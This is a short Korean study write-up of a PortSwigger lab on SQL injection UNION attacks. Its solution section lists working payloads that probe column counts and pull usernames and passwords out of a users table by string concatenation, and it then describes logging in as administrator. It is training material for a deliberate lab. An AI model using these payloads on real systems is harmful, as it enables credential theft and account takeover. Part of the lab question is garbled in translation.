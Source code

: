 # [PortSwigger]SQL Injection 05

https://portswigger.net/web-security/all-labs

## LAB
SQL 주입 UNION 공격, 단일 열에서 여러 값 검색

## Qusetion
이 연구소에는 제품 범주 필터에 SQL 삽입 취약점이 포함되어 있습니다. 쿼리의 결과는 응용 프로그램의 응답으로 반환되므로 UNION 공격을 사용하여 다른 테이블에서 데이터를 검색할 수 있습니다.

데이터베이스에는 및 ***users***라는 열이 있는 이라는 다른 테이블이 있습니다 . ***username password***

랩을 해결하려면 모든 사용자 이름과 암호를 검색 하는 SQL 주입 UNION administrator 공격을 수행하고 해당 정보를 사용하여 사용자로 로그인합니다.

## Solution

제품 범주 필터에 Union SQL Injection 취약점 확인

![](../img/Study%20Img/%5BPortSwigger%5DSQL%20Injection%2006%20-%201.png)

<br>

category 파라미터에 취약점 확인
```
' union select null --
' union select null,null --
' union select username, password from users --
' union select null, username||' '||password from users --
```

우회기법사용 - 문자열 병합
```
'abc'||'def'
>>>
abcdef
```

![](../img/Study%20Img/%5BPortSwigger%5DSQL%20Injection%2006%20-%202.png)

<br>

ID, PW 확인

![](../img/Study%20Img/%5BPortSwigger%5DSQL%20Injection%2006%20-%203.png)

<br>

admin 계정으로 로그인 시도

![](../img/Study%20Img/%5BPortSwigger%5DSQL%20Injection%2006%20-%204.png)

<br>

admin 계정으로 로그인 성공 확인

![](../img/Study%20Img/%5BPortSwigger%5DSQL%20Injection%2006%20-%205.png)